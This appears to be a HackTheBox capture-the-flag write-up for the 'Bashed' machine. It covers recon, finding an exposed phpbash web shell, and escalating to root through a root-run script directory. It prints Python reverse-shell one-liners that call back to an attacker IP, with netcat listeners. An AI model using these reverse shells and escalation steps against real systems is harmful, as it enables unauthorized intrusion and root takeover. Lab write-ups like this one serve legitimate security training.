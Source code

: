 # Bashed [HTB](https://app.hackthebox.com/machines/Bashed)
![bashed-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/bashed-01.png)


## Recon

I start by adding the target to my `/etc/hosts` file. Then i fire off `nmap` to scan it:

```bash
nmap -sC -sV -A -p- bashed.htb -oN nmap.result
```

![nmap-res-02(https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/nmap-res-02.png)


We have the following:

+ An Apache server on port 80. 


Lets see what this site has to offer. 


## Apache port 80


Lets open our browser and navigate towards the target site at `http://bashed.htb`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/site-03.png)


The site talks about different tools developed for pentesting, at the moment we only see the `phpbash` 
tool with a valid link. Lets check it out:

![phpbash-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/phpbash-04.png)


If we click on the [Github link](https://github.com/Arrexel/phpbash) we will be brought to the following 
page:

![github-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/github-05.png)

Sounds useful, lets see how to use this tool:

![usage-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/usage-06.png)

Accourding to the instructions, we need to upload the tool to the target server and access it through the URL to get a web-shell. However, the target site said that this tool was developed on the same machine,
so this `phpbash` should be somewhere on the server, lets try and find it. 

I use `ffuf` for directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.[67/1995$
 -u http://bashed.htb/FUZZ
```

![dev-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-07.png)

This `dev` directory looks promising, lets check it out:

![dev-dir-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-dr-08.png)

Here it is, if we click it we get access to the system:

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/shell-09.png)

Lets try to elavate our privileges. 


## Privilege Escalation

If we take a look at the `/etc/passwd` file:

```bash
cat /etc/passwd
```

![passwd-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/passwd-10.png)

We can see we have two valid user accounts on the system that are not service accounts. Now if we take a 
look at the `sudo` permissions with:

```bash
sudo -l
```

![sudo-privs-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/sudo-privs-11.png)


As you can see, the `www-data` user can run any command without a password as the `scriptmanager` user.
So we can pop a shell as `scriptmanager` fairly easily with sudo, but first, we need an actual TTY shell, 
not a web shell. 

We can use a one liner revese shell, but first lets setup the listener with:

```bash
rlwrap nc -lnvp 443
```

Then we can use Python for the reverse shell:

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![tty-shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/tty-shell12.png)

Now we can switch to the `scriptmanager` user by running:

```bash
sudo -u scriptmanager /bin/bash
```

![switch-user-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/switch-user-13.png)

If we go to the root directory and run `ls` we can see something unusual:

![scripts-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-14.png)


If we `cd` into this directory and run `ls -l` inside we can see the following:

![scripts-ll-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-ll-15.png)


We have a python script, owned by our user, and a `test.txt` file owned by root. Lets take a look at the python script:

![py-script-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/py-script-16.png)

The script simply creates a file called `test.txt` and writes `testing 123!` to it. This is the file ownedby root we saw before in our current directory. The fact taht the file is owned by root tells me there is a task running in the background periodically as the root user, executing this `test.py` script. 

We can verify this with [pspy64](https://github.com/DominicBreuker/pspy):

![task-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/task-17.png)


This is bad, we have a task running as root, executing files ending with a `.py` extension, found in a directory owned by a low-privileged user. Escalation in this scenario is fairly trivial, since we can execute
any command we want as root, through these python scripts.

All we need to do is paste a one-liner Python reverse shell into a file in the `/scripts` directory:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> pwned.py
```

Setup a listener:

```bash
rlwrap cn -lnvp 9001
```

And we should get a shell as root:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/root-18.png)
